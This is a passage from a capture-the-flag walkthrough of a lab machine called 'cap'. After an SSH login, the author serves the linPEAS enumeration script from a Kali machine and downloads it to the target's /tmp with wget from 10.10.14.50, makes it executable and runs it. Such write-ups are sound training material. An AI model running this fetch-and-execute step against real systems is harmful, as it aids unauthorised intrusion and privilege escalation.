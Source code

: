 ```bash
63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ whoami;hostname;id
nathan
cap
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

By logging on to the SSH service I noticed the host OS Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64). My first command is to see, who I am, the machine which I am using and the membership of the user.

Since we are on a Linux machine we can use an enumeration script to help a bit.
One of my favorite enumeration scripts is linPEAS, which is present on my Kali machine.

I can get the file on the target machine by hosting the file with a Python webserver.
The webserver is started in the linPEAS directory so Only this file is available via the web service.

```bash
┌──(eMVee@kali)-[~/Documents/Usefull/privilege-escalation-awesome-scripts-suite/linPEAS]
└─$ sudo python3 -m http.server 80                  
[sudo] password for eMVee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Now the webserver is running on port 80 at my machine it's time to download the file to the victims machine.
I need a writable directory, most of the time therfore I can use /tmp.
after changing the directory to /tmp I had to download the file using the wget command.
The file which I had downloaded is not an exutable yet. By using the chmod +x command followed by the filename, the file will be changed to an executabe file.
The step after this is to execute the script. 

```bash
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ wget http://10.10.14.50/linpeas.sh
--2021-10-01 10:40:03--  http://10.10.14.50/linpeas.sh
Connecting to 10.10.14.50:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473371 (462K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                              100%[=============================>] 462.28K   515KB/s    in 0.9s    

2021-10-01 10:40:04 (515 KB/s) - ‘linpeas.sh’ saved [473371/473371]

nathan@cap:/tmp$ chmod +x linpeas.sh 
nathan@cap:/tmp$ ./linpeas.sh 

```
